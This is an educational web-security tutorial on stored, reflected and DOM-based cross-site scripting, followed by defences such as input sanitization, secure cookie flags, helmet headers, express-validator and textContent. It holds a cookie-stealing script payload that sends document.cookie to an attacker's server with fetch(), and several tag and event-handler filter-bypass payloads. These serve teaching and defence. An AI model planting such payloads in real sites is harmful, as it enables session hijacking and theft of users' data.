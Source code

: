 # Cross-Site Scripting (XSS) Attacks

Cross-Site Scripting (XSS) is a common web application vulnerability that occurs when a web application renders unsanitized input to the front end of an application. An attacker takes advantage of this vulnerability by injecting malicious code, generally in the form of JavaScript, through the browser. They can trick a benign website into executing this code for other users. This enables an attacker to steal information from another user’s client-side data, redirect a user to malicious pages, or take control of their browser!

We will walk through different types of such attacks: Stored XSS, Reflected XSS, and DOM-Based XSS.

## Stored XSS

A stored XSS vulnerability occurs when a web server stores an unsanitized user input and displays it to other users. In a worst-case scenario, an attacker can input a malicious script and store it to the vulnerable website, making the script run for all other users on that page.

![An image showing that in Stored XSS attacker an attacker creates a comment with code, the web server saves the comment, the user requests to see the comments, then the server sends the comment to the victim's browser where the code is executed.](./imgs/Cybersecurity_XSS_Stored_v2-03.svg)

Let’s walk through the example in the image above.

Let’s say a website has a poorly designed comment function where the backend does not sanitize user comments. It may be possible for an attacker to add dangerous JavaScript to their comment. Now, any time another user loads the page and the server displays the comment with the bad code to the HTML, that user’s browser will execute the JavaScript code. This is an example of a Stored XSS attack.

This effect makes Stored XSS attacks some of the most serious XSS attacks.

For example, an attacker could have a victim's session cookie sent to another server. If an attacker hosts their own server at, www.localhost:5000, they can inject code into that comment field in order to “infect” the site and run malicious code whenever someone requests to see the comments. Since comments are saved in a vulnerable site's database, this script is stored, and will be retrieved and run whenever a user accesses the comment section. One example could be, instead of writing a review, the attacker writes the following:

```html
<script>
  fetch(`http://localhost:5000?data=${document.cookie}`);
</script>
```

To store the comment in the vulnerable site's database, the attacker can use [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) to parse the text and format it so it is passed as a query parameter to the backend.

> http://examplevulnerablesite.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E

## Reflected XSS

Reflected XSS occurs when a user’s input is immediately returned back to the user. This return may come in the form of an error message, a popup, or a search term. In these instances, the malicious code is never stored by the server. Rather, it exists as a value in the URL or request.

Despite the bad code not being stored in the database and executed by all victims’ browsers, the attacker can use Reflected XSS to target certain users, forcing them to execute the malicious script. Take a look at the example below where an attacker tricks a user into clicking a script-injected link, set up to steal that user’s credentials!

![An image showing in Reflected XSS that an attacker sends a script injected link to the victim, the victim clicks on it, the victim's browser loads the legitimate site while also executing the malicious script, and then the malicious script sends the user's information to the attacker.](./imgs/Cybersecurity_XSS_Reflected_v2.svg)

## DOM-Based XSS

The DOM, short for Document Object Model, is used to help scripts and the underlying webpage interact. When user input is interpreted by the DOM, an attacker is able to inject malicious code there. These types of vulnerabilities do not cause any changes in how the server responds. Rather, these attacks are completely client-side.

For example, a web page may use client-side Javascript to customize a welcome page, displaying their name based on a value in the URL. Depending on how the Javascript runs, a DOM-Based XSS attack may be able to replace the name value with a malicious script. If a victim loaded the page with the attacker’s code, the vulnerable webpage may execute the code!

![An image with the following steps: 1) Attacker sends link containing malicious code, 2) Victim opens link, 3) Victim's browser sends request to server, 4) Server responds with page 5) Victim's browser loads vulnerable Javascript and executes the attacker's payload.](./imgs/Cybersecurity_XSS_DOM_v2.svg)

## Identifying XSS Vulnerabilities

Let’s look at how we can uncover XSS vulnerabilities in a web application.

As with any vulnerability, it is important that we investigate any potential input areas. When looking at the application, consider all possible fields. Comments, usernames, custom settings, and parameters all provide great starting points.

Once we have identified a potential injection point, we can begin testing various inputs to create a proof-of-concept payload (POC). A POC payload will demonstrate that an issue exists, without causing damage. The most basic POC payload is shown below.

```html
<script>
  alert(1);
</script>
```

If a web server is not properly sanitizing user input, this will return a pop-up box similar to the below image.

![This image shows "<script>alert(1)</script>" was injected into the URL which caused a Javascript alert to show up on the screen.](./imgs/alert.jpg)

If this payload does not work, that does not necessarily mean the system is secure. In fact, many systems will take a flawed approach to protection and block certain words. If a blocklist is in effect your request may be blocked, or your <script> tags could be removed. There are numerous other ways we can execute code, without ever using a <script> tag. Below are some potential workarounds that could be used by an attacker.

```html
<img src="X" onerror="alert(1);" />

<b onmouseover="alert(1)">click me!</b>

<body onload=alert('test1')>
```

## Sanitization

Sanitization is the process of removing/replacing problematic characters with safe versions. Depending on the backend language, there may or may not be built-in functions to aid in this process.

However, if these functions do not exist, we can generally succeed in preventing XSS attacks by removing characters such as <, >, ", =, and potentially dangerous keywords.

Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.

For example, the < character would be converted to the “<” string. The browser will render this string as the “<” character, but it will not interpret it as actual HTML, preventing the attack.

It is important to note, however, that depending on how the data is used, this type of escaping may not be enough. It’s important to consider all potential avenues for an attack.

There are also JavaScript packages like [sanitize-html](https://www.npmjs.com/package/sanitize-html) that help sanitizer user inputs!

## Securing Cookies and Headers

### Securing Cookies

An express server that uses express-session to store cookies has the properties httpOnly and secure to configure how to store and send cookies. Setting httpOnly and secure to true helps mitigate the risk of client-side script accessing the protected cookie.

In order to set up a cookie in an Express server, you can use the library express-session to set up a session and configure the application with specific properties pertaining to cookies:

```JavaScript
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
);
```

### Setting Security Headers

Moreover, we can include the helmet package to edit HTTP headers. Helmet.js is a collection of 15 Node modules that interface with Express. Each module provides configuration options for securing different HTTP headers. One of them being the contentSecurityPolicy which is an added layer of security that helps to detect and mitigate certain types of attacks. Fortunately, by just including this package in your express app, 11 of these modules (including the content security policy module) will be configured automatically.

You can use helmet by adding the following line of code:

```JavaScript
app.use(helmet());
```

## Data Validation and Sanitization

In the Reflected and Stored XSS Attacks, we saw how an attacker can inject malicious code into the server and/or database using a form. This is why it’s important to validate and/or sanitize data before it’s submitted to the server.

When we validate data we ensure that the user is not submitting information that doesn’t fit a certain format. Moreover, we can use sanitization in order to reformat data so no malicious code is sent.

In other words, validation checks if the input meets a set of criteria (such as a string contains no standalone single quotation marks), whereas sanitization modifies the input to ensure that it is valid (such as removing single quotes).

There are many packages that help validate user data, and one common package is express-validator. It’s built off of the validator package, and it is recommended for use in express applications. With express-validator, we can verify if a string matches a certain format by importing certain functions such as check:

```Javascript
const { check } = require("express-validator");
```

Once the function is imported, it can be used as a middleware within our endpoints, to validate any input that’s submitted within objects attached to req (such as data sent in a form through req.body):

```Javascript
app.post("/login", [
  check('email').isEmail(),
  check("password").isLength({ min: 5 }),
], (req, res) => {});
```

In the example above, the email field is sent through a login form and retrieved from req.body. Notice how we’re using an array since we can pass in multiple check‘s for input data.

If the input data is valid, then the rest of the request will be executed and we know that the data passed in is safe and properly formatted.

## DOM-Based Precautions

We know that, in DOM-Based Attacks, the malicious code is client-side. To prevent this attack developers must be very careful with the type of code used in the browser.

To be more specific, these types of attacks happen when data from a user-controlled source (like user name or redirect URL taken from the URL fragment) reaches a sink, which is a function like eval() or a property setter like .innerHTML, that can execute arbitrary JavaScript code.

There are several methods and attributes which can be used to directly render HTML content within JavaScript. If these methods are provided with malicious input, then an XSS vulnerability could result. For example:

```JavaScript
// Attribute:
element.innerHTML = "<HTML> Tags and markup";
// Method:
 document.write("<HTML> Tags and markup");
```

Instead, one can replace these methods with an attribute like textContent.

```Javascript
// Will add as an actual HTML element.
element.innerHTML = "<maliciousHTML>";
// Will render as text on the webpage.
element.textContent = "<displaysAsText>";
```

Ideally, one could take a step further and avoid rendering user input, especially if it affects DOM elements such as the document.url, document.location, or document.referrer.

Lastly, one should validate and sanitize all user input in order to prevent any data manipulation.
